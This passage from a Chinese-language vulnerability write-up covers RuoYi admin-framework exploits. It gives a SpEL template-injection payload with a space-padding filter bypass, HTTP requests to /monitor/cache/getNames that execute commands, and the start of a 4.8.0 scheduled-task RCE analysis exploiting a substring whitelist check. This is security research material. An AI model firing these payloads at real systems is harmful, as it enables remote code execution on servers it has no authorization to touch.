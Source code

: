 我们将Payload改造一下，如${T (java.lang.Runtime).getRuntime().exec("calc.exe")}  
。在T和(之间多加几个空格即可，放入数据包中进行测试发现成功弹出计算器。  
  
这里为了方便演示，payload  
直接贴出来了，大家测试的时候记得进行URL  
编码。  
```
POST /monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a calculator')}__::.x
```  
```
cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}
```  
#### 接口/monitor/cache/getKeys  
#### 接口/monitor/cache/getValue  
#### 接口/demo/form/localrefresh/task  
# 0x09 若依4.8.0版本计划任务RCE  
### 环境搭建  
  
https://github.com/yangzongzhuan/RuoYi/releases  
  
导入数据库，修改application-druid中的数据库账号密码  
  
修改application中的文件路径及log存放路径  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicqdnSx8DWiatrY9pTroMGXwlI6C9uDqN9EXNicnItuEvkOMbkc8piarPJg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoichf7zNJfsYQr84yFyygmFayc1ich5ibkxuViaNqy7pg76JL11FJqJ5ibTcQ/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
启动成功  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicznTRZeAib1xOMpm3LiaoXBHAOURNRz4WY4LtdQMwHAVaCZm5kBOSEX4g/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
最新版本4.8 Ruoyi 后台⽬前限制  
- **规则**  
：invokeTarget  
 必须包含 com.ruoyi.quartz.task  
 字符串。  
  
-   
- **子字符串匹配漏洞**  
：白名单检查使用 StringUtils.containsAnyIgnoreCase  
，只要 invokeTarget  
 中**任意位置**  
包含白名单字符串即可，无需完全匹配包名。  
  